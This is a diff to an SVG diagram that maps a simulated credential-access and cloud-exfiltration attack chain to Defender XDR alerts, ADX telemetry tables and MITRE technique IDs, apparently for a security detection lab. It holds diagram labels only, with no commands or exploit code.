-   <text x="877" y="556" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">IdentityQueryEvents · IdentityLogonEvents</text>
+   <text x="877" y="556" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">IdentityQueryEvents · SecurityEvent 4769</text>
  <line x1="570" y1="610" x2="1035" y2="610" stroke="#a855f7" stroke-width="1.8" stroke-dasharray="6 3" marker-end="url(#arrowSeqDashed)" />
-   <text x="800" y="602" text-anchor="middle" fill="#e9d5ff" font-size="11" font-weight="600">6 · Defender XDR fires alerts (MB-001 → MB-005)</text>
-   <text x="800" y="626" text-anchor="middle" fill="#d8b4fe" font-size="10" font-style="italic">AlertInfo · AlertEvidence populated for the credential-access chain</text>
+   <text x="800" y="602" text-anchor="middle" fill="#e9d5ff" font-size="11" font-weight="600">6 · Defender XDR fires alerts, grouped into SOC incidents</text>
+   <text x="800" y="626" text-anchor="middle" fill="#d8b4fe" font-size="10" font-style="italic">AlertInfo · AlertEvidence · SecurityIncident · ThreatIntelIndicators join</text>
  <line x1="570" y1="695" x2="865" y2="695" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
  <text x="717" y="687" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">7 · Service-account lateral move</text>
  <text x="717" y="711" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">svc_sql · WinRM 5985 · cracked Kerberoast hash</text>
  <line x1="870" y1="727" x2="1035" y2="727" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
-   <text x="952" y="721" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">DeviceLogonEvents</text>
-   <line x1="870" y1="775" x2="725" y2="775" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
-   <text x="797" y="767" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">8 · Directory recon</text>
-   <text x="797" y="791" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">svc_azureadconnect delegation read</text>
-   <line x1="870" y1="805" x2="1035" y2="805" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
-   <text x="952" y="799" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">IdentityDirectoryEvents</text>
+   <text x="952" y="721" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">DeviceLogonEvents · IdentityLogonEvents</text>
+   <line x1="120" y1="775" x2="415" y2="775" stroke="#cbd5e1" stroke-width="1.8" marker-end="url(#arrowSeq)" />
+   <text x="265" y="767" text-anchor="middle" fill="#f1f5f9" font-size="11" font-weight="600">8 · Cloud collection and exfiltration</text>
+   <text x="265" y="791" text-anchor="middle" fill="#94a3b8" font-size="10" font-style="italic">storage key listing · bulk blob read · mailbox access · T1530 · T1114.002</text>
+   <line x1="420" y1="805" x2="1035" y2="805" stroke="#64748b" stroke-width="1.2" stroke-dasharray="5 4" marker-end="url(#arrowSeqDashed)" />
+   <text x="725" y="799" text-anchor="middle" fill="#64748b" font-size="10" font-style="italic">AzureActivity · CloudStorageAggregatedEvents · OfficeActivity</text>
  <text x="600" y="850" text-anchor="middle" fill="#94a3b8" font-size="11" font-style="italic">Solid arrows = attacker actions · Dashed arrows = telemetry deposits to ADX · Purple = Defender XDR alerts</text>
-   <text x="600" y="868" text-anchor="middle" fill="#64748b" font-size="11" font-style="italic">Tactic: Credential Access · MITRE techniques: T1552.002 · T1003.001 · T1003.002 · T1555 · T1555.003 · T1558.003</text>
+   <text x="600" y="868" text-anchor="middle" fill="#64748b" font-size="11" font-style="italic">MITRE: T1566.002 · T1078.004 · T1528 · T1098.001 · T1552.002 · T1003.001 · T1003.002 · T1555 · T1558.003 · T1021.006 · T1530 · T1114.002</text>
</svg>
